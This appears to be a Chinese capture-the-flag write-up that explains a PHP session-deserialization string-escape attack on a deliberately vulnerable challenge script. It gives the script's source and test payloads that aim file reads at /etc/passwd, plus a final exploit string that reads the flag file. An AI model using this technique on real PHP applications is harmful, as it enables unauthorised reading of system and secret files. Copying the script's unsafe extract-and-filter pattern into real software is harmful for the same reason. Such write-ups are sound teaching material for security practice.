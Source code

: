 源码

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

在phpinfo里看到了这个：

```php
auto_append_file=d0g3_f1ag.php
```





反序列化点是 `_SESSION`，但是这里最大的问题是 `_SESSION` 中的 img 属性无法直接可控，是经过 sha1 加密的，而且 sha1 加密是不可逆的，如此一来就需要思考其他攻击方式了。

接着关注一下 `filter` 函数，很容易就想到字符串逃逸的攻击手法了，简单三步走，这里我们先测试一下

```php
$_SESSION["user"] = 'flagflag';
$_SESSION['function'] = "123";
$_SESSION['img'] = "L2V0Yy9wYXNzd2Q=";

var_dump(serialize($_SESSION));

$serialize_info = filter(serialize($_SESSION));
var_dump($serialize_info);
```

输出结果

```php
string(91) "a:3:{s:4:"user";s:8:"flagflag";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"
    
string(83) "a:3:{s:4:"user";s:8:"";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"
```

第二步，修改 payload 进行测试，让其闭合

```php
$_SESSION[function]=a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}
```

输出结果

```php
string(132) "a:3:{s:4:"user";s:48:"a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"

string(132) "a:3:{s:4:"user";s:48:"a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"
```

被替换掉的字符是 `_SESSION['user']`

中间部分就是多余的，想办法用字符串逃逸去替代。

第三步，计算选中部分长度（构造逃逸代码）令 `$_SESSION[user]` 为6个4位长度的字符（flag）或者8个3位长度的字符（php）但是题目里的 SESSION 有三个参数，而我们第二行构造的代码中以 `}` 结尾了，所以反序列化后只能出现两个参数，没有满足要求，所以不会成功反序列化，那么只需要再任意补充一段序列化值即可。
最终 POC：

第二个s原本对应一堆flag，但是被过滤了，php会尝试向后读取24个字符，也就是*;s:8:”function”;s:59:”a”*。刚好后面就是img，这样就成功的把我们的恶意值赋值给了img。

```php
$_SESSION["user"] = 'flagflagflagflagflag';
$_SESSION['function'] = 'a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}';
$_SESSION['img'] = "L2V0Yy9wYXNzd2Q=";

var_dump(serialize($_SESSION));

extract($_POST);

$serialize_info = filter(serialize($_SESSION));
var_dump($serialize_info);
```

构造 EXP

```php
_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

![flag](images/flag.png)













